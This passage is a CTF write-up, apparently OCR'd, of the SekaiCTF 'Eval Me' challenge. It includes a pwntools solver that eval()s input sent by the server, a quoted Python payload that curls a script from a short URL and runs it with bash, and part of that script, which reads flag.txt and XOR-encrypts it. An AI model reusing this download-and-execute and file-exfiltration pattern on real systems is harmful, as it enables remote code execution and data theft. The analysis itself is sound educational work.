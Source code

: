 ey|a
eh m|m
t iy|t
d iy|d
w ay|y
k l ow  s k er l iy b r ae k ih t|`close curly bracket` }

`FLAG: SEKAI{some1zfarawaytmr15sequeltoourdreamtdy}`

#### Eval Me
`I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?`

Attachment: `capture.pcapng`

In addition to the network packet capture, we are also given the netcat info to a challenge server.

Connecting to the server via netcat, gives us this:
```
Welcome to this intro pwntools challenge.
I will send you calculations and you will send me the answer
Do it 100 times within time limit and you get the flag :)

3 * 10
```

So, this seems like a simple pwntools challenge, assisted by a call to the `eval()` function in python.

```python
    from pwn import *
    context.log_level = 'debug'

    R = remote("chals.sekai.team",9000)
    R.recvuntil(b'flag :)\n\n')
    for i in range(100):
        line = R.recvline().decode().strip()
        print(f"Eval({line})")
        ans = eval(line)
        R.sendline(str(ans).encode())
        R.recvuntil(b'correct\n')
    R.interactive()
```
Somewhere during the evaluation of the 100 statements, one of the statements is a tricky beast of python code that purports to download a script from a site, executes the script and deletes it. 
```
    b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r'
    b'#1 + 2 
```
Using curl to pull down the script shows the following program.

```bash
    #!/bin/bash
    FLAG=$(cat flag.txt)
    KEY='s3k@1_v3ry_w0w'
    # Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
    Asc() { printf '%d' "'$1"; }

    XOREncrypt(){
        local key="$1" DataIn="$2"
        local ptr DataOut val1 val2 val3

        for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

            val1=$( Asc "${DataIn:$ptr:1}" )
            val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

```